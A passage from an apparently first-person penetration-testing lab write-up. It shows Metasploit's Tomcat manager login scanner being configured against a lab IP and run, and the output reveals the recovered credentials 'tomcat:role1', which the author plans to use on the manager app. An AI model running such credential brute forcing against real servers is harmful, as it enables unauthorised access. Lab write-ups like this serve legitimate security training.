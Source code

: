 ```
   USER_AS_PASS      false                                                                           no        Try the username as the password for all users
   USER_FILE         /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_users.txt     no        File containing users, one per line
   VERBOSE           true                                                                            yes       Whether to print output for all attempts
   VHOST                                                                                             no        HTTP server virtual host
msf6 auxiliary(scanner/http/tomcat_mgr_login) > 
``` 

I noticed a few options which should be set to run the exploit.
* RHOSTS -> IP address of the target
* USERNAME -> username (tomcat) or the list with usernames
* VERBOSE -> false to only see a valid combination

```bash
msf6 auxiliary(scanner/http/tomcat_mgr_login) > set RHOSTS 10.0.2.6
RHOSTS => 10.0.2.6
msf6 auxiliary(scanner/http/tomcat_mgr_login) > set USERNAME tomcat
USERNAME => tomcat
msf6 auxiliary(scanner/http/tomcat_mgr_login) > set VERBOSE false
VERBOSE => false
msf6 auxiliary(scanner/http/tomcat_mgr_login) >
```

To run the module I just need to type the command **run** and hit the enter key on my keyboard.

``` bash
msf6 auxiliary(scanner/http/tomcat_mgr_login) > run

[+] 10.0.2.6:8080 - Login Successful: tomcat:role1
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/http/tomcat_mgr_login) >
```

It has found a valid crednetials combination which I added to my notes: **tomcat:role1**
Because I had found potential credentials I ha dto try to logon to the App manager again.